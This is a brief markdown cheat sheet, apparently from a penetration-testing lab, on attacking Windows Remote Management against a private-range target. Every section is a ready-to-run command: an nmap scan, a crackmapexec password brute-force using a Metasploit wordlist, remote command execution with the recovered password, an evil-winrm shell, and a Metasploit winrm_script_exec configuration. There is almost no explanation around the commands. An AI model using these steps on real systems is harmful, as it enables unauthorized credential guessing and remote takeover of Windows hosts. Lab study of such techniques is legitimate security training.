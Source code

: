 # Exploiting WINRM
#### INITIAL ENUMERATION
```
nmap -sV 10.5.28.148
```

#### BRUTEFORCING WINRM CREDS
```
crackmapexec winrm 10.5.28.148 -u administrator -p /usr/share/wordlists/metasploit/unix_passwords.txt 
```

#### REMOTE CODE EXECUTION
```
crackmapexec winrm 10.5.28.148 -u administrator -p tinkerbell -x "ipconfig"
```

#### SPAWNING A CMD SHELL
```
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.5.28.148
```

#### METASPLOIT ALTERNATIVE
```
use exploit/windows/winrm/winrm_script_exec
set RHOST 10.5.28.148
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
run
```

